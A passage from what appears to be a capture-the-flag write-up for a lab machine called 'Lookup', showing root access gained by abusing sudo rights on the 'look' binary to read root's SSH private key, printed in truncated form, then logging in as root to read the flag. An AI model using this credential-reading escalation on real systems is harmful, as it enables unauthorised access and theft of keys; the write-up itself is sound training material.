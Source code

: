 Using this method, we are successful at reading the private **SSH** key for the `root` user as such:

```console
think@lookup:~$ sudo /usr/bin/look '' /root/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
...
DgTNYOtefYf4OEpwAAABFyb290QHVidW50dXNlcnZlcg==
-----END OPENSSH PRIVATE KEY-----
```

We can save this private key in a file, set the correct permissions for it, and then use it with **SSH** to gain a shell as the `root` user. From there, we can read the root flag at `/root/root.txt` and complete the room.

```console
$ chmod 600 id_rsa

$ ssh -i id_rsa root@lookup.thm
...
root@lookup:~# wc -c root.txt
33 root.txt
```

<style>
.center img {        
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}
</style>
